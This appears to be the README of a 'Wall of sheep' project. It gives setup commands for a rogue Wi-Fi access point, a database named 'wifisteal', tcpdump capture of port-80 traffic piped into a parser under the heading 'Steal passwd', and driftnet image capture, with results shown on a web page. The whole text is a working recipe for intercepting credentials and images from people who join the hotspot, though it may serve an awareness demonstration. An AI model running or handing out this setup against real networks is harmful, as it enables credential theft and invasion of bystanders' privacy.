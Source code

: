 # Wall of sheep
See [https://www.wallofsheep.com/pages/wall-of-sheep](https://www.wallofsheep.com/pages/wall-of-sheep)

## Required logiciel:
* tcpdump
* postgresql
* create_ap
* driftnet

## Create the database:
    createdb wifisteal
    psql -d wifisteal -f createdb.sql

## Create the wifi:
    sudo ./create_ap wlp2s0 enp0s25 pds-wall-of-sheep urlabULB

## Steal passwd:
    sudo tcpdump -i wlp2s0 tcp port 80 -vv | python3 parse.py

## Get all images:
    sudo driftnet -i wlp2s0

## Run the webserver:
    python3 app.py
